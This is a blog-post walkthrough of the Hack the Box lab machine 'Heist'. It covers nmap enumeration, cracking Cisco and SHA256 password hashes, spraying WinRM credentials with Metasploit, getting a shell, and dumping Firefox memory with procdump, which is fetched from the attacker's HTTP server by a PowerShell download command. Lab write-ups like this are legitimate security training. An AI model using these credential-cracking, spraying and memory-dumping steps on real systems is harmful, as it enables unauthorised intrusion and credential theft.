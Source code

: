 +++
author = "Nick"
categories = ["CTF", "enumeration", "windows", "Powershell", "WinRM", "Ruby", "CVE", "hashcat", "impacket", "metasploit", "procdump", "hack the box", "cisco hashes"]
date = 2019-11-30T15:07:05Z
description = ""
draft = false
image = "__GHOST_URL__/content/images/2019/09/info-1.png"
slug = "hack-the-box-heist"
summary = "Welcome back everyone! Today we are going to be going through the Hack the Box machine, Heist. Lets jump in!"
tags = ["CTF", "enumeration", "windows", "Powershell", "WinRM", "Ruby", "CVE", "hashcat", "impacket", "metasploit", "procdump", "hack the box", "cisco hashes"]
title = "Hack the Box - Heist"

+++


Welcome back everyone! Today we are going to be going through the Hack the Box machine, Heist. Lets jump in!

As usually we start off with our standard nmap scan. ```nmap -sC -sV -oA heistscan 10.10.10.149```
```
Host is up (0.054s latency).
Not shown: 997 filtered ports
PORT    STATE SERVICE       VERSION
80/tcp  open  http          Microsoft IIS httpd 10.0
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
| http-title: Support Login Page
|_Requested resource was login.php
135/tcp open  msrpc         Microsoft Windows RPC
445/tcp open  microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 39s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2019-09-09T15:55:27
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```

We get back a fairly limited amount of results. So lets just be safe and rescan all ports. ```nmap -sV -p- -T4 10.10.10.149```

```
Not shown: 65530 filtered ports
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
135/tcp   open  msrpc         Microsoft Windows RPC
445/tcp   open  microsoft-ds?
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49668/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
Service detection performed. Please report any incorrect resul
```

This is bit more interesting. We see that we have port 5985 open, which is WinRM. That can be handy later on. Lets check out what the HTTP service is hosting.

{{< figure src="__GHOST_URL__/content/images/2019/09/image-1.png" >}}

We see a login portal, admin:admin or any other standard password username combo's. We do see an option to login as guest. When we click it we are brought to a conversation tree.

{{< figure src="__GHOST_URL__/content/images/2019/09/image-2.png" >}}

We are able to deduce a username, Hazard, as well as an attachment's directory. When we look at the attachement, we see a cisco config. We can decrypt level 7 passwords with an online tool [here](http://www.ifm.net.nz/cookbooks/passwordcracker.html). We enter in the encrypted password and get our dencrypted password back.

{{< figure src="__GHOST_URL__/content/images/2019/09/image-3.png" caption="The first." >}}

{{< figure src="__GHOST_URL__/content/images/2019/09/image-5.png" caption="The second." >}}

We also have the ability to try and brute for the type 5 passwords as well, but it fails. That's probably a better job for hashcat. We will put that type 5 password into a file and feed it to hashcat. I'll crack this from my windows machine since my VM would take forever to do it!

We issue ```hashcat -a 0 -m 500 hash.txt /usr/share/wordlists/rockyou.txt``` and wait.

{{< figure src="__GHOST_URL__/content/images/2019/09/image-4.png" caption="stealth1agent eh?" >}}

Seconds later, we have a stealth1agent listed as the password. So now that we have a username and three passwords, we should try to see if they are a valid credentials for SMB.

We can start by enumerating shares on the target. ```smbmap -L \\\\10.10.10.149\\ -U Hazard```. We can then give it the password we just cracked and see if we can list some shares.

{{< figure src="__GHOST_URL__/content/images/2019/09/image-6.png" >}}

We have a standard listing of shares. Trying to login with the three passwords we have as Hazard didn't work. So we'll need to enumerate the users a bit more. We can use a tool called lookupsid.py by [Impacket](https://github.com/SecureAuthCorp/impacket/blob/master/examples/lookupsid.py).

{{< figure src="__GHOST_URL__/content/images/2019/09/image-7.png" >}}

We now have a list of users on the machine as well as the domain the machine is part of. We now have enough data to try and spray the RPC port for working credentials. First we need to compile the users into a file as well as all our passwords.

{{< figure src="__GHOST_URL__/content/images/2019/09/image-8.png" >}}

We can now start up Metasploit using ```msfdb run```. We can locate some useful WinRM modules with ```search WinRM``` within Metasploit.

{{< figure src="__GHOST_URL__/content/images/2019/09/image-9.png" >}}

In this case we want to use option 2, winrm_login. When we show the options we see the fields we want to use are ```PASS_FILE```, ```RHOSTS```, ```DOMAIN``` and ```USER_FILE```.

{{< figure src="__GHOST_URL__/content/images/2019/09/image-10.png" >}}

We set all the options and let it rip!

{{< figure src="__GHOST_URL__/content/images/2019/09/image-11.png" >}}

Looks like Chase is our guy! We will try to login using the above credentials to SMB and see what we get.

{{< figure src="__GHOST_URL__/content/images/2019/09/image-14.png" >}}

Denied. After some quick digging around for WinRM RCE's, I found [this](https://alamot.github.io/winrm_shell/). We will simply modify the script with our credentials and target and see if it works out.

{{< figure src="__GHOST_URL__/content/images/2019/09/image-16.png" caption="Note that we have HTTP and not HTTPS." >}}

We have a shell!

{{< figure src="__GHOST_URL__/content/images/2019/09/image-17.png" >}}

We change our directory to Desktop and snag the user.txt file. Onto root!

We know that since we've connected via WinRM that our current shell is powershell. So we can enumerate our processes by issueing ```get-process```. When we do, we notice everything is pretty normal except the Firefox instances. This is to emulate that there is another user on the machine running something, maybe an admin.

{{< figure src="__GHOST_URL__/content/images/2019/09/image-18.png" >}}

As part of our enumeration, we head over to C:/inetpub/wwwroot and see whats there.

{{< figure src="__GHOST_URL__/content/images/2019/09/image-19.png" >}}

We don't seem to have the ability to list the contents of the directory. We do however know what some of the pages that are being served, mostly login.php. Lets try to view that. It works, we can view the content of this PHP file. The part that sticks out is the password verification.

{{< figure src="__GHOST_URL__/content/images/2019/09/image-20.png" >}}

We have a SHA256 encrypted password being stored here in plain text. We can simply decrypt this and have the password for admin.

{{< figure src="__GHOST_URL__/content/images/2019/09/image-21.png" >}}

Lets try the same WinRM with the username Administrator and this password.

{{< figure src="__GHOST_URL__/content/images/2019/09/image-22.png" >}}

Success! We have the root flag! However, I don't think that was the intended way of gaining root. I think the machine creator wanted us to use ProcDump to dump data from the FireFox instances and find the password in that dump. So lets do that too.

The first things we need to do is download ProcDumpfrom Microsoft. Once we do we will sping up a SimpleHTTPServer and serve the files to our machine: ```python -m SimpleHTTPServer 80```.

Now that its running we can use powershell to grab the file.

```(new-object net.webclient).DownloadFile("http://10.10.14.136/procdump64.exe","C:/users/Chase/Documents/p64.exe")```

We now have the file renamed as p64.exe. We will give it the commands to dump the processes from the larges running firefox instance.

{{< figure src="__GHOST_URL__/content/images/2019/09/image-23.png" >}}

In this case we will use process 6612 since its using the mose amount of CPU. ```./p64.exe -accepteula -ma 6612```.

{{< figure src="__GHOST_URL__/content/images/2019/09/image-24.png" >}}

This kicks out our dump file. One thing you may have noticed as we are jumping around on the system that Linux Subsystem is enabled on this machine. This helps us because we can use some linux based commands to parse this file.

```cat firefox.exe_190913_231848.dmp | % { if($_ -match "password") {echo $_}}```

This will give us a large output but if we sift through it, we should find the password we are looking for!
Sure enough, if you have your terminal scroll back high enough, you will find and unecrypted password. Now it would probably be a bit easier to download the file back to our attacking machine and just ```strings``` and ```grep``` the file for password but the file is a bit too large to be doing on the HTB network.

Hopefully something was learned. If you found this write-up helpful, consider sending some respect my way: [Lovecore's HTB Profile](https://www.hackthebox.eu/home/users/profile/95635).

